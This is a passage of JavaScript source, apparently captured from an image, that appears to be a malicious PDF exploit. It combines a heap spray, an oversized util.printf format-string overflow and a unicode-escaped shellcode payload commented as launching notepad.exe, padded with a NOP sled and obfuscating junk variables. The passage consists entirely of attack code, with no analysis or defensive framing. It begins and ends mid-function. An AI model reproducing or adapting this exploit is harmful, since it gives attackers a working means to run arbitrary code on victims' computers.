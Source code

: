 ```javascript
                var edit = "edit";
        }
        this.xGoogle = '';
        this.vY = false;
        var fillblock = bigblock.substring(0, spray);
        var iP = function() {};
        var block = bigblock.substring(0, bigblock.length - spray);
        var googleD = false;
        this.fUEdit = "";
        while (block.length + spray < 0x40000) {
                block = block + block + fillblock;
                this.bJ = '';
        }
        var googleQ = '';
        this.nW = '';
        var mem_array = new Array();  
        var cH = new String();
        var nVO = new String("");
        for (var i = 0; i < 1400; i++) {
                mem_array[i] = block + heapblock;
                var sQ = new String("");
        }
        var wC = '';
        var num = 12999999999999999999888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888;
        this.bC = 3699;
        util.printf("%45000f", num);  
}
var eQ = "";

function gX() {
        var basicZ = '';
		// notepad.exe payload
        var shellcode = unescape("%uc931%u64b1%ub6bf%u558b%ud976%ud9cd%u2474%u58f4%ue883%u31fc%u0d78%u7803%ue20d%u6043%u2c45%u44e1%ub6af%u964c%ub72e%ued9a%u55a9%u1a18%u71cc%u2237%u7e30%u91b7%u1856%ue9ae%u2394%u7479%ucdff%u5e6b%ufc95%ue562%u12a2%u77ad%u53d8%u925f%u4178%ue5b2%ufc62%uf826%ub883%u9e2c%u6c59%uf5dd%u5d2a%uc113%uc7c1%ub031%u6cf7%ua2b6%u1838%u2007%u1d29%ua0b1%u0314%uaee1%ufbd8%u96df%ua80b%uc7cd%uca91%ubfab%u7091%uea13%u7a32%u7bb1%u5ba0%ue130%u3b9f%u8d42%ue4ba%u28a0%u4e20%u29d6%u0147%uf2cc%ucff0%uffb9%u2f62%uc948%u2904%ud333%ude69%u2b88%u10f3%u776b%uedee%uef80%u9fcf%u89c2%uc649%uf510%u36e3%u10fb%ud153%u40ef%u4d82%u41f6%ue4ae%u5cb1%uf58a%uaa78%u3472%u750f%u52e6%u712a%u9faf%u5fea%uc24a%u9cf3%u64f2%u0559%u5ecc%u7957%u0607%ue3a9%u828a%u26fc%uc2cc%u7f97%u1577%u2a0a%u9c21%u73c8%ube3e%u4838%uf571%u04de%uca4d%ue02c%u6126%u4c09%ucab8%u16cf%ueb5c%u3af3%uf869%u3ffd%u02b2%u2bfc%u17bf%u3214%u149e%u8f05%u0fff%uec38%u0df4%ue632%u5709%u0f5f%u481a%u6947%u7913%u5680%u864d%ufe94%u9652%uec98%ua8a6%u13b3%ub6c0%u39da%ub1c7%u1421%ub9d8%u6f32%udef2%u091c%uf4e9%ude69%ufd04%ud308%ud722%u1af7%u2f5a%u15f2%u2d5b%u2f31%u3e43%u2c3c%u26a4%ub9d6%u2921%u6d1c%uabe5%u1e0c%u059e%u8fa4%u3f0e%u3e4d%ucbaa%ud183%u5346%u40f5%ub4de%uf46f%uae52%u7901%u53fa%u1e82%uf294%u8d50%u9b01%u28cf%u50e5%ud262%ue195%u661d%u2003%ufeb8%ubcae");
		var mem_array = new Array();  
        this.googleBasicR = "";
        var cc = 0x0c0c0c0c;
        var addr = 0x400000;
        var sc_len = shellcode.length * 2;
        var len = addr - (sc_len + 0x38);
        var yarsp = unescape("%u9090%u9090");
        this.eS = "eS";
        yarsp = s(yarsp, len);
        var count2 = (cc - 0x400000) / addr;
        this.rF = false;
        this.p = "p";
        for (var count = 0; count < count2; count++) {
                mem_array[count] = yarsp + shellcode;
```